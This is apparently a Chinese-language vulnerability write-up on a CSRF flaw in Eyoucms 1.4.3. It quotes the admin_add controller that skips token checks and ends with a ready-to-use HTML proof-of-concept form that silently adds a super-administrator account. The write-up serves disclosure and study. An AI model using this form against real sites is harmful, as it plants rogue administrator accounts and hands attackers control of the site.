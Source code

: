 ```yaml
---
title: "Eyoucms 1.4.3 csrf漏洞"
id: zhfly2926
---
```


# Eyoucms 1.4.3 csrf漏洞

## 一、漏洞简介

可通过csrf漏洞添加管理员

## 二、漏洞影响

Eyoucms 1.4.3

## 三、复现过程

### 漏洞分析

漏洞触发点在`application\admin\controller\Admin.php`

```
 public function admin_add()
 {
     $this->language_access(); // 多语言功能操作权限

```
 if (IS_POST) {
     $data = input('post.');

     if (0 &lt; intval(session('admin_info.role_id'))) {
         $this-&gt;error("超级管理员才能操作！");
     }

     if (empty($data['password']) || empty($data['password2'])) {
         $this-&gt;error("密码不能为空！");
     }else if ($data['password'] != $data['password2']) {
         $this-&gt;error("两次密码输入不一致！");
     }

     ...

     if (empty($data['pen_name'])) {
         $data['pen_name'] = $data['user_name'];
     }
     if (M('admin')-&gt;where("user_name", $data['user_name'])-&gt;count()) {
         $this-&gt;error("此用户名已被注册，请更换",url('Admin/admin_add'));
     } else {
         $admin_id = M('admin')-&gt;insertGetId($data);
         if ($admin_id) {
             adminLog('新增管理员：'.$data['user_name']);

             /*同步追加一个后台管理员到会员用户表*/
             try {
                 $usersInfo = Db::name('users')-&gt;field('users_id')-&gt;where([
                         'username'  =&gt; $data['user_name'],
                         'lang'      =&gt; $this-&gt;admin_lang,
                     ])-&gt;find();
                 if (!empty($usersInfo)) {
                     $r = Db::name('users')-&gt;where(['users_id'=&gt;$usersInfo['users_id']])-&gt;update([
                             'nickname'      =&gt; $data['user_name'],
                             'admin_id'      =&gt; $admin_id,
                             'is_activation' =&gt; 1,
                             'is_lock'       =&gt; 0,
                             'is_del'        =&gt; 0,
                             'update_time'   =&gt; getTime(),
                         ]);
                     !empty($r) &amp;&amp; $users_id = $usersInfo['users_id'];
                 } else {
                     // 获取要添加的用户名
                     ...

                     $users_id = Db::name('users')-&gt;insertGetId($AddData);
                 }
                 if (!empty($users_id)) {
                     Db::name('admin')-&gt;where(['admin_id'=&gt;$admin_id])-&gt;update([
                             'syn_users_id'  =&gt; $users_id,
                             'update_time'   =&gt; getTime(),
                         ]);
                 }
             } catch (\Exception $e) {}
             /* END */

             $this-&gt;success("操作成功", url('Admin/index'));
         } else {
             $this-&gt;error("操作失败");
         }
     }
 } 
``` 
```

可以看到进队管理员权限进行校验，而没有对提交token进行校验，导致恶意用户可引导管理员点击构造的url进行管理员添加，实际操作可不跳转到管理页面，以免引起怀疑。

### 漏洞复现

登陆后台，在高级选项>管理员>新增管理员点击之后截包

![image](../img/c0114e965333c201d40f9dbd967a234d.png)

### poc

```
 <html>
 <!-- CSRF PoC - generated by Burp Suite Professional -->
 <body>
 <script>history.pushState('', '', '/')</script>
     <form action="http://127.0.0.1/EyouCMS1.4.3/login.php?m=admin&c=Admin&a=admin_add&lang=cn" method="POST">
     <input type="hidden" name="user&#95;name" value="test" />
     <input type="hidden" name="password" value="test" />
     <input type="hidden" name="password2" value="test" />
     <input type="hidden" name="pen&#95;name" value="" />
     <input type="hidden" name="true&#95;name" value="" />
     <input type="hidden" name="mobile" value="" />
     <input type="hidden" name="role&#95;id" value="&#45;1" />
     <input type="submit" value="Submit request" />
     </form>
 </body>
 </html> 
```

模拟管理员点击

![image](../img/6f29d8ae7cdf975e613ac1f725e70481.png)

添加完成

![image](../img/a8263a53ff77639fc1daa27db8c60d73.png)